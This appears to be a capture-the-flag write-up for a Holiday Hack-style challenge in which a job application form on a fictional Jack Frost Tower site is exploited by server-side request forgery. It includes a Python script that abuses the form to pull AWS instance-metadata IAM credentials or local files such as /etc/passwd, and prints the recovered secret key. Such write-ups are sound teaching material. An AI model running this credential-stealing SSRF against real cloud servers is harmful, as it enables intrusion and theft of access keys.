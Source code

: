 # Now Hiring!

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [jackfrosttower website](https://apply.jackfrosttower.com/)<br/>
**Terminal hint**: [IMDS Exploration](../hints/h10.md)


## Objective

!!! question "Request"
    What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.


## Hints

??? hint "AWS IMDS Documentation"
    The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.


## Solution

As noted by Noxious O’Dor after solving the [IMDS Exploration](../hints/h10.md) terminal, *"anytime you see URL as an input, test for SSRF"*. So, let's head straight for the [application form](https://apply.jackfrosttower.com/?p=apply) and fill in some random values to see how the application behaves.

It turns out we only really need to fill out the `Name` field to submit the form, but if you also enter a URI in the `NLBI report` field the response will look different. For example, using the name *Alf the dyslexic elf* and http://169.254.169.254/latest will result in a confirmation message containing additional text and what appears to be a broken image.

=== ":material-web-off: Skipping the NLBI report"
    ![Leaving out the URL](../img/objectives/o10/no_imds_url.png){ class=border }

=== ":material-web-plus: Submitting an NLBI report URI"
    ![Submitting an IMDS URL](../img/objectives/o10/imds_url.png){ class=border }

Inspecting the network requests using our web browser's developer tools shows that the missing image actually has the same name we submitted via the form, `Alf the dyslexic elf.jpg`. It also shows that the request to retrieve the image returned an HTTP 200 response, meaning it must exist. Downloading [`Alf the dyslexic elf.jpg`](../artifacts/objectives/o10/Alf%20the%20dyslexic%20elf.jpg) using `curl` reveals that the file doesn't contain any image data at all, but the output from a request to the server's http://169.254.169.254/latest IMDS API endpoint.

![Inspecting the image](../img/objectives/o10/inspecting_the_image.png)

Now that we've confirmed the website is vulnerable to [SSRF](https://portswigger.net/web-security/ssrf) we can either keep using the form like we've done so far, use `curl` to manually submit the form and retrieve the image data, or write a [small script](../tools/objectives/o10/get_ssrf_data.py) that automates the form submission and image retrieval for either an IMDS API endpoint or a local file URI like file:///etc/passwd. 

??? example "get_ssrf_data.py"
    ```python linenums="1"
    #!/usr/bin/env python
    import requests
    import click


    @click.command()
    @click.option('-n', '--name', default="Alf the dyslexic elf", help='Your preferred name.')
    @click.option('-a', '--api-endpoint', default="/", help='The IMDS API endpoint to query.')
    @click.option('-f', '--file', help='The full path to a local file.')
    def cli(name: str, api_endpoint: str, file: str):
        url = "https://apply.jackfrosttower.com"

        # Create the file or IMDS URI to retrieve
        if file:
            message = f"local file {file}"
            uri = f"file://{file}"
        else:
            message = f"IMDS {api_endpoint}"
            uri = f"http://169.254.169.254{api_endpoint}"

        # Application form fields
        params = {
            'inputName': name,
            'inputEmail': "",
            'inputPhone': "",
            'resumeFile': "",
            'inputWorkSample': uri,
            'additionalInformation': "",
            'submit': "",
        }

        # Submit the form
        sess = requests.Session()
        resp = sess.get(url, params=params)

        # If the request was successful, download the JPG file and print the contents
        if resp.status_code == 200 and "recipients rejoice!" in resp.text:
            print("Form submission successful.")
            print(f"Retrieving {message}:")
            print(sess.get(f"{url}/images/{name}.jpg").text)
        else:
            print("Error submitting form.")


    if __name__ == '__main__':
        cli()
    ```

The key data we're after is stored under `/latest/meta-data/iam/security-credentials/{role_name}`, so we first need to request `/latest/meta-data/iam/security-credentials` and then use the role name in a followup request to retrieve all credential details.

![Running the script](../img/objectives/o10/run_script.png)

!!! done "Answer"
    CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX


!!! note "PHP application flaw"
    Using `python get_ssrf_data.py -f '/var/www/html/index.html'` to access the web application source at  `/var/www/html/index.html` we can see that the PHP code doesn't verify if an actual NLBI report URL was submitted and simply assumes that what is sent back is an image. The intent was to personalize the confirmation message by including the applicant's profile picture, but instead it introduced a significant vulnerability.

    ![PHP flaw](../img/objectives/o10/php_flaw.png)
